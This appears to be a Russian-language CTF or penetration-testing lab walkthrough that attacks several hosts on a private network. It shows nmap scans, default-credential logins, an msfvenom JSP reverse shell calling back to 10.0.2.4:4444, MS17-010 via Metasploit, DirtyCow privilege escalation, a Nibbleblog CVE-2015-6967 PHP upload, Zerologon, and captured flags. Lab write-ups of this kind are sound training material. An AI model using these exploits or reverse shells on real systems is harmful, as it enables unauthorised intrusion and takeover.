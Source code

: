 ~~192.168.100.7~~
~~192.168.100.10,192.168.100.16~~
~~192.168.100.11~~
~~192.168.100.12 ~~
~~192.168.100.20~~
~~192.168.100.24~~
192.168.100.9

==192.168.100.7== - Windows 7 with smb
MS17-010
>[!tip]- nmap
>135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: OFFICE-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_nbstat: NetBIOS name: OFFICE-PC, NetBIOS user: unknown, NetBIOS MAC: 00:50:56:a7:1d:99 (VMware)
| smb2-time: 
|   date: 2025-01-16T19:42:24
|_  start_date: 2025-01-15T14:07:32
|_clock-skew: mean: 10h36m02s, deviation: 4h37m07s, median: 7h56m02s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: OFFICE-PC
|   NetBIOS computer name: OFFICE-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-16T11:42:24-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

Проверяем уязвима ли машина к MS17-010 с помощью nmap --script smb-vuln-ms17-010 192.168.100.7
![[Pasted image 20250117142216.png]]
Запускаем msfconsole и находим ms17-010. Производим минимальную настройку и запускаем. Спустя несколько попыток получаем соединение и забираем флаг с рабочего стола Peter![[Pasted image 20250117142413.png]]
![[Pasted image 20250117142431.png]]
flag{c6acfd25d389305b9cc20f6568e3bce2}
![[Pasted image 20250117142359.png]]


==192.168.100.12== - tomcat
Заходим на сайт  http://192.168.100.12:8080 и видим что tomcat только что был установлен. Скорее всего пароль остался дефолтным. Перебираем стандартные пароли tomcat и получает доступ (tomcat s3cret)
![[Pasted image 20250113113119.png]]

Создаем шелл `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 -f war > shell.war`
и затем заливаем его на сайт и переходим http://192.168.100.12:8080/shell/
Получаем подключение и забираем первый флаг пользователя flag{c351df7d89f09ba2e58e98d2406f7d54} ![[Pasted image 20250113113244.png]]

python -c "import pty; pty.spawn('/bin/bash')"

Закидываем на машину DirtyCow и компилируем файл ( О DirtyCow можно узнать с помощью linpeas ил)
![[Pasted image 20250117215741.png]]
Запускаем его и создаем нового пользователя root с паролем hacker
![[Pasted image 20250117215833.png]]
Заходим под новым пользователем и забираем флаг
![[Pasted image 20250117215922.png]]

flag{5cf994319843b8ca8ea46f615ae32e80}

==192.168.100.10,16==
>[!tip]- nmap
>Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h55m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-17T20:11:29
|_  start_date: N/A
Nmap scan report for 192.168.100.16
Host is up (0.034s latency).
Not shown: 65349 closed tcp ports (conn-refused), 160 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-17 20:09:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tech.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: TECH)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tech.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TECH
|   NetBIOS_Domain_Name: TECH
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: tech.local
|   DNS_Computer_Name: DC01.tech.local
|   DNS_Tree_Name: tech.local
|   Product_Version: 10.0.14393
|_  System_Time: 2025-01-17T20:12:30+00:00
|_ssl-date: 2025-01-17T20:12:49+00:00; +7h56m04s from scanner time.
| ssl-cert: Subject: commonName=DC01.tech.local
| Not valid before: 2025-01-14T23:26:15
|_Not valid after:  2025-07-16T23:26:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49739/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: DC01
|   NetBIOS computer name: DC01\x00
|   Domain name: tech.local
|   Forest name: tech.local
|   FQDN: DC01.tech.local
|_  System time: 2025-01-17T12:12:39-08:00
| smb2-time: 
|   date: 2025-01-17T20:12:38
|_  start_date: 2025-01-15T23:26:24
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 9h32m05s, deviation: 3h34m44s, median: 7h56m03s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required



==192.168.100.24==
Через ffuf находим страницы admin и update
![[Pasted image 20250117192249.png]]

На странице admin подбираем пароль и логин (admin admin) и получаем доступ к кабинету админа
На странице update узнаем версию Nibbleblog 4.0.3
![[Pasted image 20250117192400.png]]
Воспользуемся  CVE-2015-6967 которая загружает наш payload php по адресу content/private/plugins/my_image/image.php
![[Pasted image 20250117192554.png]]

И получаем страницу со строкой для команд в которой прописываем shell 
![[Pasted image 20250117192650.png]]

Получаем доступ, делаем стабильный шелл и получаем первый флаг user flag{6d6c8c5b880f4017d36ac79963d5be0c}

![[Pasted image 20250117192803.png]]
![[Pasted image 20250117192814.png]]

Проверяем sudo и видим что можем использовать sudo без пароля. Читаем флаг в директории root flag{eec8bcb745ff86fba3b662e5c22ff609}

![[Pasted image 20250117192906.png]]
![[Pasted image 20250117192928.png]]

==192.168.100.20==

 проверяем наличие уязвимости nmap --script smb-vuln-ms17-010 192.168.100.20
 ![[Pasted image 20250117200933.png]]

  через msfconsole запускаем ms17-010 psexec и получаем доступ под системой
![[Pasted image 20250117201010.png]]

Находим файл через search -f *.txt и забираем флаг
![[Pasted image 20250117201126.png]]
flag{2027838ae5b03434ee0202a0d785b929}

==192.168.100.9==
admin/dcerpc/cve_2020_1472_zerologon

==192.168.100.11==